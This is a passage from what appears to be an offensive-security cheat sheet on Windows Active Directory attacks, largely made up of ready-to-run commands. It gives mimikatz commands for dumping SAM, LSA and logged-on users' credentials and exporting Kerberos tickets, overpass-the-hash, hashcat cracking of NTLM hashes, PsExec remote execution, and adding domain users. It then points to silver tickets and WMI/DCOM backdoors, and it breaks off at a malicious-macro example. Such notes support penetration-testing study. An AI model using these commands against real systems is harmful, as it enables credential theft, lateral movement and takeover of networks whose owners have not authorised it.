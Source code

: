     ```
    mimikatz # lsadump::sam
    ```
    
- dumping NTLM password hashes:
    
    ```
    mimikatz # lsadump::lsa /patch
    ```
    
    - Cracking them with `hashcat` (or [Pass-The-Hash](https://github.com/amirr0r/notes/blob/master/Infosec/boot2root-cheatsheet.md#%EF%B8%8F-post-exploitation-pivoting-and-lateral-movement) directly): `hashcat -m 1000 ntlm-hashes.txt <WORDLIST>`
- dumping the credentials of all logged-on users:
    
    ```
    mimikatz # sekurlsa::logonpasswords
    ```
    
- dumping all service tickets of all logged-on users:
    
    ```
    mimikatz # sekurlsa::tickets
    ```
    
- download service ticket:
    
    ```
    mimikatz # kerberos::list /export
    ```
    
- 🦘 **Overpass the hash** (turn the NTLM hash into a Kerberos ticket and avoid the use of NTLM authentication):
    
    ```
    mimikatz # sekurlsa::pth /user:<USERNAME> /domain:<DOMAIN> /ntlm:<NTLM_HASH> /run:PowerShell.exe
    ```
    
    ```powershell
    net use \\$MACHINE_HOSTNAME
    klist
    ```
    
    To gain a remote code execution:
    
    ```powershell
    .\PsExec.exe \\$MACHINE_HOSTNAME cmd.exe
    ```
    

## ↔️ Post-exploitation, Pivoting and Lateral Movement

- Add user to the domain: `net user $USERNAME $PASSWORD /add /domain`
- Add user to a group: `net group "$GROUPNAME" /add $USERNAME`
- Change user Password: `net user $USERNAME $NEW_PASSWORD`
- Execute command with: `.\PsExec.exe -accepteula [\\$HOSTNAME] -u $USERNAME -p $PASSWORD $COMMAND`
- [Silver tickets](https://github.com/amirr0r/notes/blob/master/Infosec/boot2root-cheatsheet.md#%EF%B8%8F-silver-ticket-mimikatz)
- **DCOM** (Distributed Component Object Model): interaction between multiple computers over a network
    - Old technology dating back to the very first editions of Windows
    - [Abusing Windows Management Instrumentation (WMI) to Build a Persistent, Asyncronous, and Fileless Backdoor [BlackHat 2015]](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf)
    - Requires local admin access + RPC on TCP port 135
    - Excel example: (require to add a malicious macro in the document)
        